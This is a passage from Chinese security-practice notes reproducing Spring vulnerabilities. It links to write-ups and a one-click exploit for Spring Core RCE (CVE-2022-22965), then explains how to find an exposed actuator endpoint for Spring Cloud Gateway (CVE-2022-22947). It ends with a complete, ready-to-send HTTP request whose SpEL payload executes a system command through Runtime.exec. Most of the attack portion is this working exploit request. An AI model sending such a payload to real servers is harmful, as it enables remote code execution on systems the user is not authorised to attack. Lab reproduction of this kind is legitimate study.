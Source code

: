 然后直接访问shell

![image-20241015131702519](https://s2.loli.net/2024/10/15/xGtF9YyPHjC7J4w.png)

> [Spring Core RCE 复现 - Erichas - 博客园 (cnblogs.com)](https://www.cnblogs.com/byErichas/p/16082155.html)
>
> [Spring框架远程命令执行复现（CVE-2022-22965） - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/335663.html)

#### 方法三：exp

[GitHub - wjl110/CVE-2022-22965_Spring_Core_RCE: CVE-2022-22965\Spring-Core-RCE堪比关于 Apache Log4j2核弹级别漏洞exp的rce一键利用](https://github.com/wjl110/CVE-2022-22965_Spring_Core_RCE)

### 3.Spring Cloud Gateway RCE(CVE-2022-22947)

我猜测有带#的可能是spring框架

actuator是一个后台监控系统

一般扫出/actuator/gateway/routes就可能存在此漏洞

其中还有env和headdump文件较为重要

![image-20241019003846781](https://s2.loli.net/2024/10/19/oQd9GFgef6TzAPq.png)

构造恶意的路由请求,直接发送数据包

```
POST /actuator/gateway/routes/test HTTP/1.1
Host: 123.58.224.8:27159
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like 		Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 310

{
  "id": "hacktest",
 "filters": [{
"name": "AddResponseHeader",
"args": {
  "name": "Result",
  "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
}
  }],
  "uri": "http://example.com"
}

```
